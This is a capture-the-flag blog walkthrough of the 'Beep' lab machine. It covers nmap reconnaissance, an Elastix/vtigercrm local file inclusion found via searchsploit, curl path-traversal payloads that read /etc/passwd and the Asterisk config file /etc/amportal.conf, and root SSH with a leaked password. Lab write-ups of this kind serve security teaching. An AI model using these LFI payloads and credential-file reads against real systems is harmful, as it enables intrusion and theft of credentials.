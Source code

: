```yaml
---
title: Beep
published: true
layout: post
---
```


<br />

---------------
Beep has a **very large list of running services**, which can make it a bit challenging to find the correct entry method. This machine can be overwhelming for some as there are many potential attack vectors. Luckily, there are several methods available for gaining access. 
<br />

<iframe style="aspect-ratio: 16 / 9; width: 65%; display: block; margin: auto;" src="https://www.youtube.com/embed/HkEZ4S_7hnQ?si=hSYFPz9MnzKnJ07z" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" referrerpolicy="strict-origin-when-cross-origin" allowfullscreen></iframe>

<br />

---------------------------------------------------
<br />

## Walkthrough

### Reconnaissance

We will start by **scanning protocolos** in the target machine, this can be divided in 3 phases:
1. Scan for **open ports**.
2. Scan for **services** in these open ports.
3. Scan for **vulnerabilities** in these services.

<br />

Let's start by scanning for **open ports**:

```bash
sudo nmap -sS 10.10.10.7 -p- -T4 --min-rate 5000 -oN all_tcp_ports.txt --open -n -Pn -vv
sudo nmap -sU 10.10.10.7 -p- -T4 --min-rate 5000 -oN all_udp_ports.txt --open -n -Pn -vv
```
<br />

There were **19 open ports**:
+ **22/tcp**
+ **25/tcp**
+ **80/tcp**
+ **110/tcp**
+ **111/tcp**
+ **111/udp**
+ **123/udp**
+ **143/tcp**
+ **443/tcp**
+ **792/tcp**
+ **993/tcp**
+ **995/tcp**
+ **3306/tcp**
+ **4190/tcp**
+ **4445/tcp**
+ **4559/tcp**
+ **5038/tcp**
+ **10000/tcp**
+ **10000/udp**

<br />

Let's check which **services** are running in these ports:

```bash
sudo nmap -sS 10.10.10.7 -p 22,25,80,110,111,143,443,792,993,995,3306,4190,4445,4559,5038,10000 -T4 --min-rate 5000 -oX open_tcp_ports.xml -oN open_tcp_ports.txt --version-all -n -Pn -A
sudo nmap -sU 10.10.10.7 -p 111,123,10000 -T4 --min-rate 5000 -oX open_tcp_ports.xml -oN open_udp_ports.txt --version-all -n -Pn -A
```
<br />

There are a lot of services that does not provide relevant information, but the ones that do are:
+ **22/tcp OpenSSH 4.3 (protocol 2.0)**
+ **443/tcp Apache httpd 2.2.3 ((CentOS))**
+ **5038/tcp Asterisk Call Manager 1.1**
+ **10000/tcp MiniServ 1.570 (Webmin httpd)**

<br />

Now we will seek for **vulnerabilities**:

```bash
sudo nmap -sS 10.10.10.7 -p 22,25,80,110,111,143,443,792,993,995,3306,4190,4445,4559,5038,10000 -T4 --min-rate 5000 --script="vuln or intrusive or discovery" -oN tcp_vulns.txt -oX tcp_vulns.xml -n -Pn
sudo nmap -sU 10.10.10.7 -p 111,123,10000 -T4 --min-rate 5000 --script="vuln or intrusive or discovery" -oN tcp_vulns.txt -oX tcp_vulns.xml -n -Pn
```
<br />

This scan didn't return any relevant information.<br />

------
<br />
### Foothold

This machine didn't feel like an easy machine for me due to the overwhelming amount of open ports, some problems with SSL and being the first time I meet Elastix and FreePBX.
<br />

We will focus on the website located on port 443, however it will give us a **TLS error** due to a very old version of it, to overcome this problem, we have to type about:config in our **Firefox URL bar** and set to **true** this element, if it doesn't exist, create it:

```
security.tls.version.enable-deprecated
```
<br />

Once this is done we can access the website to find an **Elastix login page**:<br />

![](/assets/Beep/1.png)
<br />
<br />

Searching for Elastix on `searchsploit` returns an **LFI vulnerability**:

```bash
searchsploit Elastix
```

![](/assets/Beep/2.png)
<br />
<br />

We can check this vulnerability by running:

```bash
curl -k 'https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../../etc/passwd%00&module=Accounts&action'
```

![](/assets/Beep/3.png)
<br />
<br />

The first I though after seeing this was **log poisoning**, however it didn't work, so I searched for sensitive files and found **Asterisk's configuration file /etc/amportal.conf**, so let's print it and omit comments:

```bash
curl -k 'https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../../etc/amportal.conf%00&module=Accounts&action' | grep -v '^#'
```

![](/assets/Beep/4.png)
<br />
<br />

Great!! We have a **password**, we can try it with the **users we enumerated printing the /etc/passwd file**, it will give us some **algorithms errors**, so I will solve them with a few parameters, luckily for us, it was **root's password**:

```bash
ssh root@10.10.10.7 -oKexAlgorithms=+diffie-hellman-group1-sha1 -oHostKeyAlgorithms=ssh-rsa
```

![](/assets/Beep/5.png)
<br />
<br />
